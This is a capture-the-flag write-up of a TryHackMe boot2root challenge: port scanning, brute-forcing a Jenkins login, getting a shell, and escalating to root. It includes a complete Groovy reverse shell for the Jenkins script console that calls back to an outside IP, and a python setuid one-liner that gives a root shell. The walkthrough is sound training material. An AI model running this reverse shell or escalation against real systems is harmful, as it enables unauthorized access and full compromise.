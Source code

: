 ```yaml
---
title: Cyber Grabs CTF 0x03 – boot2root
date: '2022-02-07'
draft: false
authors: ['thebish0p']
tags: ['Web', 'Cyber Grabs CTF 0x03', 'Jenkins', 'Shell', 'PrivEsc']
summary: 'Bruteforce Jenkins login page with a wordlist we find leading to system access and proceeding by escalating to Root'
---
```


## boot2root

> by MrGrep
>
> Let's Start!!! Alison is a SOC analyst of TheCyberGrabs Pvt Ltd. He got some alerts that someone is trying to access the server but he is not quite sure how that attack is getting executed so he wants to hire some pentesters to check the security can you help alison?
>
> Visit here to play:- [TryHackMe Room](https://tryhackme.com/jr/cybergrabsctf2022)
>
> Flag Format: `cybergrabs{boot2root}`

This challenge was hosted on [TryHackMe](https://tryhackme.com/). We launch an instance and start by running an nmap quick scan on the machine’s IP address to check for open ports:

```
nmap -T4 -A -F 10.10.156.214
```

```
Host is up (0.16s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   closed ftp
80/tcp   open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: CyberGrabs Jr CTF
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
8080/tcp open   http    Jetty 9.4.43.v20210629
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.43.v20210629)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

We start by browsing port 80 checking common files like `robots.txt` and we can find 2 interesting files:

![robots.txt](/static/images/cyber-grabs-ctf-0x03/robots.png)

As shown below `s3cret` is a wordlist and `confidential` is actually just random data encoded with Base32 with nothing useful for the challenge:

| ![s3cret](/static/images/cyber-grabs-ctf-0x03/s3cret.png) |
| :-------------------------------------------------------: |
|                         _s3cret_                          |

| ![confidential](/static/images/cyber-grabs-ctf-0x03/confidential.png) |
| :-------------------------------------------------------------------: |
|                            _confidential_                             |

| ![confidential decoded](/static/images/cyber-grabs-ctf-0x03/dec_confidential.png) |
| :-------------------------------------------------------------------------------: |
|                               _Base32 decoded data_                               |

We try running several wordlists using dirbuster but we don’t find any other directories on port 80.

We proceed by going to port 8080 which had a Jenkins login page.

![Jenkins](/static/images/cyber-grabs-ctf-0x03/jenkins.png)

First idea we had was using the wordlist provided in `s3cret` to bruteforce the login page. Jenkins default username is `admin` so we start by bruteforcing that user. Unfortunetaly that idea didn’t work.

After a lot of trial and error we go back to the challenge description and notice that the name `Alison` is mentioned so we decided to try it as a username and bruteforce it again with the `s3cret` wordlist:

![Bruteforce Burp](/static/images/cyber-grabs-ctf-0x03/burp_bf.png)

We finally found the password `elizabeth1`.

We proceed by logging in to Jenkins:

![Logged in](/static/images/cyber-grabs-ctf-0x03/logged_in.png)

We proceed by going to the script console in order to have a reverse shell on the server as shown below:

```Groovy
String host="10.11.60.43";;
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close()
```

![Script Console](/static/images/cyber-grabs-ctf-0x03/script_console.png)

And now we have a shell:

![First shell](/static/images/cyber-grabs-ctf-0x03/first_shell.png)

We continue by stabilising the shell using `stty` as shown below:

![Stable](/static/images/cyber-grabs-ctf-0x03/stable.png)

And we manage to find the first flag in `/home/mrgrep/user.txt`. A Base32 encoded flag:

![User.txt](/static/images/cyber-grabs-ctf-0x03/user.txt.png)

![Decoded user.txt](/static/images/cyber-grabs-ctf-0x03/decoded_user.txt.png)

For the second part of the challenge, we need to get root access in order to read the `root.txt` file.

We notice that python has setuid capabilities by running `getcap`:

![getcap](/static/images/cyber-grabs-ctf-0x03/getcap.png)

This means that we can use python in order to perform a privilege escalation and get full root access by running `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`:

![Priv Escalation](/static/images/cyber-grabs-ctf-0x03/privesc.png)

Finally, we have root access and we can read the `root.txt` and get the final flag:

![Root](/static/images/cyber-grabs-ctf-0x03/rootflag.png)
